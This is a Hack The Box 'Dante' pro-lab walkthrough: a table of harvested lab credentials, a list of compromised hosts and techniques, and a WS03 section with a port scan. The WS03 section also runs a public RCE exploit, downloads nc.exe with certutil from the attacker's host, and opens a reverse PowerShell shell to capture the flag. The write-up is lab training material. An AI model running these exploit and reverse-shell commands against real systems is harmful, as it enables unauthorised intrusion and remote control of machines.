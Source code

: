 ```yaml
---
tags: 
group: EnterpriseNetwork
---
```

![](https://app.hackthebox.com/images/icons/ic-prolabs/ic-dante-overview.svg)

- Machine : https://app.hackthebox.com/prolabs/dante


# Summary

### Credentials

| Idx | Int/Ext | User      | Password                    | Type  | Where to find | Where to use | Link                                                  |
| --- | ------- | --------- | --------------------------- | ----- | ------------- | ------------ | ----------------------------------------------------- |
| 1   | Ext     | james     | Toyota                      | plain | NIX01         | Wordpress    | [Link](DANTE.md#Find%20credential%20using%20`wpscan`) |
| 2   | Ext     | shaun     | password                    | plain | NIX01         | mysql        | [Link](DANTE.md#Find%20DB%20Credential)               |
| 3   | Ext     | balthazar | TheJoker12345!              | plain | NIX01         | mysql, ssh   |                                                       |
| 4   | Int     | margaret  | Welcome1!2@3#               | plain | NIX02         | ssh          |                                                       |
| 5   | Int     | frank     | TractorHeadtorchDeskmat     | plain | NIX02         | ssh          |                                                       |
| 6   | Int     | admin     | admin                       | plain | NIX04         | blog         |                                                       |
| 7   | Int     | ben       | Welcometomyblog             | plain | NIX04         | blog, ssh    |                                                       |
| 8   | Int     | admin     | password6543                | plain | NIX03         | Webmin       |                                                       |
| 9   | Int     | xadmin    | Peacemaker!                 | plain | DC01          | ssh          |                                                       |
| 10  | Int     | katwamba  | DishonestSupermanDiablo5679 | plain | DC01          | ssh          |                                                       |
|     |         |           |                             |       |               |              |                                                       |
|     |         |           |                             |       |               |              |                                                       |
|     |         |           |                             |       |               |              |                                                       |


### Target overview

| Idx | Host       | Status | Vuln                                                                                                                                                                                                            | Link                                                  |
| --- | ---------- | ------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------- |
| 1   | NIX01(100) | Owned  | - Wordpress Login brute forcing to find credential<br>- Wordpress Plugin to open a reverse shell<br>- Find credential in command line from `.bash_history`<br>- (privesc#1) PwnKit<br>- (privesc#2) SUID `find` | [Link](DANTE.md#Shell%20as%20`www-data`%20on%20NIX01) |
| 2   | SQL01(5)   | Pass   | - Just identified services                                                                                                                                                                                      | [Link](DANTE.md#172.16.1.5(SQL01))                    |
| 3   | NIX02(10)  | Owned  | - LFI to read `wp-config.php`<br>- Exploiting `vim` to escape from restricted shell<br>- Retrieve `Slack` exported data to obtain credential<br>- Python library Injection                                      | [Link](DANTE.md#172.16.1.10(NIX02))                   |
| 4   | NIX04(12)  | Owned  | - SQL Injection on Responsive Online Blog<br>- Exploit outdated `sudo`(1.8.27)                                                                                                                                  | [Link](DANTE.md#172.16.1.12(NIX04))                   |
| 5   | WS01(13)   | User   | - Obtain credential from `sql` file<br>- Exploit File Upload vulnerability in Sign-up page                                                                                                                      | [Link](DANTE.md#172.16.1.13(WS01))                    |
| 6   | NIX03(17)  | Owned  | - Webmin 1.900 Package Update exploit                                                                                                                                                                           | [Link](DANTE.md#172.16.1.17(NIX03))                   |
| 7   | ???(19)    | Pass   | - No valid credential yet...                                                                                                                                                                                    |                                                       |
|     |            |        |                                                                                                                                                                                                                 |                                                       |
|     |            |        |                                                                                                                                                                                                                 |                                                       |


### Vulnerability



---

### Details
- [External Penetration Testing](Details/External%20Penetration%20Testing.md)
- [Shell as www-data on NIX01](Details/Shell%20as%20www-data%20on%20NIX01.md)
- [172.16.1.100(NIX01)](Details/172.16.1.100(NIX01).md)
- [Pivotting](Details/Pivotting.md)
- [Internal Penetration Testing](Details/Internal%20Penetration%20Testing.md)
- [172.16.1.1(FW)](Details/172.16.1.1(FW).md)
- [172.16.1.5(SQL01)](Details/172.16.1.5(SQL01).md)
- [172.16.1.10(NIX02)](Details/172.16.1.10(NIX02).md)
- [172.16.1.12(NIX04)](Details/172.16.1.12(NIX04).md)
- [172.16.1.13(WS01)](Details/172.16.1.13(WS01).md)
- [172.16.1.17(NIX03)](Details/172.16.1.17(NIX03).md)
- [172.16.1.19](Details/172.16.1.19.md)
- [172.16.1.101(WS02)](Details/172.16.1.101(WS02).md)
- [172.16.1.20(DC01)](Details/172.16.1.20(DC01).md)


# 172.16.1.102(WS03)

### Reconnaissance

##### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/WS02]
└─$ nmap -Pn -sCV 172.16.1.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-07 07:53 EST
Nmap scan report for 172.16.1.102
Host is up (0.13s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.0)
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.0
|_http-title: Dante Marriage Registration System :: Home Page
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.0)
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Dante Marriage Registration System :: Home Page
| ssl-cert: Subject: commonName=localhost/organizationName=TESTING CERTIFICATE
| Subject Alternative Name: DNS:localhost
| Not valid before: 2022-06-24T01:07:25
|_Not valid after:  2022-12-24T01:07:25
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.0
445/tcp  open  microsoft-ds?
3306/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DANTE-WS03
| Not valid before: 2025-01-06T03:28:04
|_Not valid after:  2025-07-08T03:28:04
| rdp-ntlm-info: 
|   Target_Name: DANTE-WS03
|   NetBIOS_Domain_Name: DANTE-WS03
|   NetBIOS_Computer_Name: DANTE-WS03
|   DNS_Domain_Name: DANTE-WS03
|   DNS_Computer_Name: DANTE-WS03
|   Product_Version: 10.0.19041
|_  System_Time: 2025-01-07T12:54:21+00:00
|_ssl-date: 2025-01-07T12:54:32+00:00; +26s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-07T12:54:21
|_  start_date: N/A
|_nbstat: NetBIOS name: DANTE-WS03, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:c7:49 (VMware)
|_clock-skew: mean: 25s, deviation: 0s, median: 25s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.67 seconds
```

- http(80)/https(443) : Dante Marriage Registration System which might be existing application.
- rpc(135)
- smb(139,445)
- mysql(3306)
- rdp(3389)

##### http(80) / https(443)

![](attachments/dante_30.png)

I found a banner that it's running on "© 2020 Online Marriage Registration System".
Let me google if it has any vulnerability.
Luckily, I was able to find RCE exploit from exploit-db :
https://www.exploit-db.com/exploits/49557

Since it's definitely low-hanging fruit, let's try this exploit first.

```bash
┌──(kali㉿kali)-[~/htb/WS03]
└─$ python 49557.py -u http://172.16.1.102 -c 'whoami'
[+] Registered with mobile phone 160519235 and password 'dante123'
[+] PHP shell uploaded
[+] Command output
dante-ws03\blake
```

What an easy exploit! I can easily run a code on the target system!
Let's spawn reverse shell after uploading `nc.exe`.

```bash
┌──(kali㉿kali)-[~/htb/WS03]
└─$ python 49557.py -u http://172.16.1.102 -c 'certutil.exe -urlcache -split -f http://10.10.14.3:8888/nc.exe'
[+] Registered with mobile phone 776967310 and password 'dante123'
[+] PHP shell uploaded
[+] Command output
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.



┌──(kali㉿kali)-[~/htb/WS03]
└─$ python 49557.py -u http://172.16.1.102 -c 'nc.exe 10.10.14.3 9000 -e powershell.exe'
[+] Registered with mobile phone 963010259 and password 'dante123'
[+] PHP shell uploaded
```

Then let's capture the shell with listener.

```bash
┌──(kali㉿kali)-[~/htb/WS03]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.110.3] 4648
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6


PS C:\Apache24\htdocs\user\images> whoami
whoami
dante-ws03\blake


PS C:\Users\blake\Desktop> cat flag.txt
cat flag.txt
DANTE{U_M4y_Kiss_Th3_Br1d3}
```


